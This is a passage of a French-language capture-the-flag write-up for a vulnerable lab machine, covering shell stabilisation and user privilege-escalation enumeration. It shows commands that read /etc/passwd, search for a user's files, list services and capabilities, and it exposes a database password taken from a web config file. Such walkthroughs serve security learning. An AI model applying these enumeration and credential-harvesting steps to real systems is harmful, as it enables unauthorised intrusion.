**Attention** il faut bien remplacer l'adresse IP ainsi que le port en fonction de vous.


* * *

## Privesc utilisateur

Pour avoir un shell un peu plus fonctionnel et propre on peut spawn un shell bash grâce à ``python3`` :

```bash
python3 -c "import pty;pty.spawn('/bin/bash')"
```

Si on regarde le fichier ``/etc/passwd`` on voit bien qu'il n'y a qu'un seul utilisateur sur la machine :

```
eric:x:1000:1000:eric,,,:/home/eric:/bin/bash
```

On peut tenter de chercher tous les fichiers qui appartiennent à cet utilisateur :

```bash
find / -user eric 2>/dev/null
```

Et on trouve le fichier ``/opt/login.py`` mais on n'a pas les droits nécessaires pour y accéder.

Avec un :

```bash
netstat -nutelap 
```

On peut voir que la base de données ``MySQL`` tourne en local.

Après avoir fouillé dans les fichiers du site web, on tombe sur des indentifiants plutôt intéressants :

```
/var/www/dev.ceng-company.vm/conn.php
```
```
$db_user = "elizabeth";
$db_passwd = "3liz4B3TH2020!Covid19";
```

On tente alors de s'y connecter avec ce qu'on vient de trouver :

```bash
mysql -u elizabeth -p -> 3liz4B3TH2020!Covid19
```

Malheureusement ça ne fonctionne pas.


Si on regarde les capabilities sur la machine on se retrouve avec :

```bash
getcap -r / 2>/dev/null
```
```
/usr/sbin/tcpdump = cap_net_admin,cap_net_raw+ep
```
